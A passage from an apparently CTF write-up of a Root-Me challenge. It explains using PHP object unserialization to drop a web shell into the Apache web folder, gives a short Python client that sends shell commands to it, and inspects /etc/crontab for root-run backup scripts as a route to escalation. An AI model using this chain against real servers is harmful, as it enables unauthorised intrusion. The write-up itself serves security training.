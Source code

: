 
What will happen here is the following:

- The `Log` string will be `unserialize`d by the PHP server script.
- During this step, the `filename` and `data` fields will be saved to a set of defined values.
- When the object is destroyed, the content of `data` will be written in the file `filename`.

We had to figure out the directory to use. After some research, we figured out the [default `Apache` folder](http://askubuntu.com/a/684030/399788) is used.

The payload is a simple web shell and will be placed in the folder `scriptz`.

Now, we must find something to do with this shell, first of, the following script enhance the usage of the web shell:


{% highlight python %}
import requests

base = 'http://ctf01.root-me.org/scriptz/b.php'

while True:
    r = requests.get(base, params = {'cmd': cmd})
    print r.content
    cmd = raw_input('> ')
{% endhighlight %}

This very simple script will get the web page, passing the command as a `GET` argument and display the result.

We immediately check for the `/passwd` file, which is, unfortunately, accessible only by the root user.

After some time looking around, we can see that the files in `/home/rene/backups` are constantly updated. It seems that a backup file is created every minute, and every 5 minutes the 5 backups are compressed together.

Checking the `/etc/crontab` file confirm this, two scripts are running, both as root, this could be the way to leverage the `passwd` file.

{% highlight bash %}

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /root/create_backup.sh
*/5 * * * * root /usr/bin/compress.sh
